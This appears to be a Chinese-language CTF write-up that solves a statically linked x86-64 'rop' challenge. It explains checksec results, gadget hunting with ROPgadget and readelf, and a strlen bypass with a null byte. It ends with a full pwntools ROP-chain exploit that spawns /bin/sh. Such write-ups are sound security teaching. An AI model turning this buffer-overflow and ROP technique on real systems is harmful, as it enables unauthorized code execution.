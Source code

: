 ```yaml
---
title: "解 ROP 之工具與詳細流程"
date: 2020-02-17T13:37:01+08:00
draft: false
tags: ["CTF", "pwn"]
categories: ["CTF pwn"]
---
```


# ROP writeup

## checksec rop

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## file rop

```
rop: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=6608f6b8f49633b8d8248f7665b6ba35659a595a, not stripped
```

## 線索1：statically linked

**動態連結**是當程式執行時，才會去 library binding (.so 或 .dll) <br>
**靜態連結**是指程式在連結階段時，就會將使用到的函式一併放入執行檔

| 比較         | 動態連結     | 靜態連結     |
| ------------ | ------------ | ------------ |
| 連結 library | runtime 階段 | linking 階段 |
| 連結方式     | 建立 GOT 表    | 與執行檔合併 |
| 檔案大小     | 較小         | 較大         |
| libray 檔案類型    |  .so 或 .dll | .a 或 .lib  |

因此我們可使用 **ROPgadget** 在此ELF找出 ROP gadget，來取得 執行權限
```
ROPgadget --binary rop | grep "正規表達式"
```
補充： `grep` 是屬於 BRE 派系，使用正規表達式時，須跳脫字元。


## 線索2：NX is enabled
```
* NX 若關閉，則可寫入 shellcode
* NX 若開啟，則可透過 ROP chain 技巧執行 shell
```

因為 NX 是開啟的，也就是說 data 段是沒有執行能力的。 
因此我們無法使用 shellcode 寫入 data 段，直接執行 shell

然而，我們可以使用 ROP 技巧來執行 shell
我們可透過 `readelf -S 檔案` 指令得知 data段 是可寫入資料的。


### 如何找 data section 位址？
使用 `readelf -S filename` 指令可查看所有 section 的位址
我們只需看 data section的部份即可 <br>

data區段雖然在此程式無法執行，但可寫入 `"/bin/sh"`字串作為納入 shell 參數的暫存區塊
```
readelf -S rop
```
或是
```
readelf -S rop | grep ".data"
```
即可知道 `0x6ca080` 是 data section 位址

![](https://i.imgur.com/b4Z45tn.png)

## 線索3： No canary

使用 r2 反組譯後由於 read 最多可以讀取 0xc8 (200) 個字元，
且輸入到的 local buffer 大小只有 32 bytes，
因此可使用 bof (buffer overflow) 技巧來建立 ROP chain。

![](https://i.imgur.com/Njh4RK9.png)


另外必須要注意，輸入字串後仍會檢查字串長度是否小於等於 32 個，
必須在輸入30個bytes大小的字串後，額外加入 空字元，繞過strlen()的超過長度的判斷，才繼續接 ROP chain

![](https://i.imgur.com/mOn49l6.png)


## ROP chain
ROP = Return Oriented Programming

顧名思義，就是利用 結尾有 ret 的 gadgets (一小段 x86 組語)來湊成我們想要做的事情。

對於 pwn ，我們就是希望可以透過 ROP chain 湊成 `execve("/bin/sh", 0, 0)`，來取得執行 shell 的系統權限。

另外，在撰寫 ROP 時，必須確認該 ELF 是 x86 還是 x64，因為 兩者的 system call 的呼叫（傳參）方式不同

* [參考x64 system call](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

### x64呼叫慣例

```
rdi: 第一個參數存放的暫存器
rsi: 第二個參數存放的暫存器
rdx: 第三個參數存放的暫存器
```

舉例來說，呼叫 `execve("/bin/sh", 0, 0)` <br>
暫存器會呈現
```
rax = 0x3b (system call 的編號)
rdi = address of "/bin/sh"
rsi = 0x0
rdx = 0x0
```
只要透過 ROP 將這些暫存器改成上述的值，chain結尾再呼叫 syscall，此程式在overflow之後就會執行 shell 了。

## 解法
```python=
from pwn import *

r = process("./rop")
data_sec = 0x06ca080
gadget1 = 0x04014f6 # pop rdi ; ret
gadget2 = 0x0401617 # pop rsi ; ret
gadget3 = 0x047a712 # mov qword ptr [rdi], rsi ; ret
gadget4 = 0x0442a19 # pop rdx ; pop rsi ; ret
gadget5 = 0x044f6cc # pop rax ; ret
syscall = 0x04003da

rop =  p64(gadget1) + p64(0x06ca080)
rop += p64(gadget2) + "/bin/sh\x00"
rop += p64(gadget3)
rop += p64(gadget4) + p64(0x0)*2
rop += p64(gadget5) + p64(0x3b) 
rop += p64(syscall)

r.recvuntil("\n")
r.send('a'*30+'\x00'+'a'*9 + rop)

r.interactive()
```